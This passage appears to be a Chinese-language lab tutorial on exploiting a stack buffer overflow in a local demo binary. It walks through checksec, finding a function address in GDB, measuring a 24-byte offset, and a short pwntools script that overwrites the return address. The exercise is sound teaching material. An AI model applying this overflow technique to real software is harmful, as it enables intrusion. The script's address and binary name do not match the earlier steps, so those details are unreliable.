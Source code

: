 在實驗開始前，需要確認目標程式的安全防護機制。可以用 `checksec 指令可以快速查看目標執行檔的相關安全措施：

```shell
checksec buffer_test
```
![](https://i.imgur.com/HuO3k3R.png)


## 三、 確認目標：

在進行攻擊之前，需要先確認目標。在這個實驗中，我們的目標是執行 `target 函式，因此需要找到該函式的記憶體位址，並蓋過函式返回位址。
   

## 四、確認函式記憶體位址

透過 GDB 來查詢 `target` 函式的記憶體位址：

```shell
gdb buffer_test
gdb-peda$ disas target
```
![](https://i.imgur.com/l1S7BAX.png)

從上圖可得知，此function開始的位址在 `0x0000000000401196`
得知了函式位址後，接著要知道如何從 input 蓋到 ret


## 五、測試

在實際進行攻擊之前，我們先在 GDB 中執行程式，並觀察它的行為：

```shell
gdb-peta$ r    //先跑跑看
```
![](https://i.imgur.com/jdWT4BI.png)

程式會要求使用者輸入名字，並在名字輸入完畢後回應 `Hello, {name}`。由於原程式中容納使用者輸入的陣列只有 16 個位元組（`RBP ~ RBP-16`），**所以我們可以透過輸入超過 16 個位元組的資料來觀察它的行為。**

![Imgur](https://i.imgur.com/HOnCJiX.png)

如圖所示，當輸入超過 24 個位元組時，程式就會發生緩衝區溢位，並且在字元 v 後就發生崩潰。這表示我們需要至少 24 個位元組的輸入，才能成功蓋過函式返回位址。

> 所以再 `8Bytes` 即可蓋完 ret address

> RBP 那顯示只到 qrstuvwx，意思就是輸到24byte就爆了


## 六、實際用 Python 來覆蓋

為了進行實際的攻擊，將使用 Python 撰寫攻擊腳本。這個腳本將使用 `Pwntools` 函式庫來進行攻擊，蓋過程式中的函式返回位址，使之執行 `target` 函式。

攻擊腳本 attack.py 如下：
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
r = process('./demo')
r.recvuntil('input your name:') 
targer_address = p64(0x400667)
r.sendline(b'A' * 24 + targer_address)
r.interactive()
```
